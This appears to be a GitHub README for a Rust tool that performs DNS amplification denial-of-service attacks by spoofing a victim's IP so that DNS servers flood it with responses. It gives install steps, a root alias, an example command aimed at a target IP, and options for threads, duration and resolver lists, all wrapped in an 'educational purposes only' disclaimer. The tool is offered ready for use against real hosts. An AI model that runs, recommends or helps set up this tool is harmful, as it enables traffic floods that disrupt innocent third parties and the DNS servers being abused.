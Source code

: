# r_dns-amplifier

![license](https://img.shields.io/badge/license-MIT-brightgreen.svg)
![version](https://img.shields.io/badge/version-2.4.1-lightgrey.svg)

`r_dns-amplifier` is a Rust script that performs DNS amplification attacks. It sends DNS queries to a target server with a spoofed source IP address, causing the target server to send a large amount of DNS response data to the spoofed IP address, thus amplifying the traffic. Please note that performing DNS amplification attacks is illegal and can cause harm to innocent parties. This code is provided for educational purposes only and should not be used for any malicious activities. The author of this code is not responsible for any harm caused by the misuse of this code.

## Disclaimer

Performing DNS amplification attacks is illegal and can cause harm to innocent parties. This code is provided for educational purposes only and should not be used for any malicious activities. The author of this code is not responsible for any harm caused by the misuse of this code.

## Requirements

The script requires Rust to be installed.

## Install

You can install the script globally using the cargo package manager by running:

```
cargo install --git https://github.com/cavoq/r_dns-amplifier.git --branch master
```

You may also need some additional libs:

```
sudo apt-get install pkg-config libssl-dev
```

Because this script uses raw sockets it requires root privileges, you need to set an alias and run the script like this if you don't want
to specify the full path:

```
echo "alias sudo-rdns='sudo env \"PATH=$PATH\" r_dns-amplifier'" >> ~/.bashrc && source ~/.bashrc
```

**Note: Instead of *r_dns-amplifier* you call *sudo-rdns***
## Usage

Example usage with global install:
```
sudo-rdns 192.168.2.1 80 -r ANY -d google.com
```

You can also run this script by building it directly after cloning:
```
cargo build --release
```

*see help:*

```
Usage: r_dns-amplifier [OPTIONS] <TARGET> <PORT>

Arguments:
  <TARGET>  IP address of the target
  <PORT>    Port of the target

Options:
  -r, --record-type <RECORD_TYPE>    Record type to use [default: ANY]
  -s, --server-list <SERVER_LIST>    List of dns servers to use
  -t, --time <TIME>                  Time the attack should run
  -d, --domain <DOMAIN>              Domain to resolve [default: google.com]
  -m, --threads <THREADS>            Thread count [default: 10]
  -n, --dns-resolver <DNS_RESOLVER>  DNS resolver to use
  -h, --help                         Print help
  -V, --version                      Print version
```
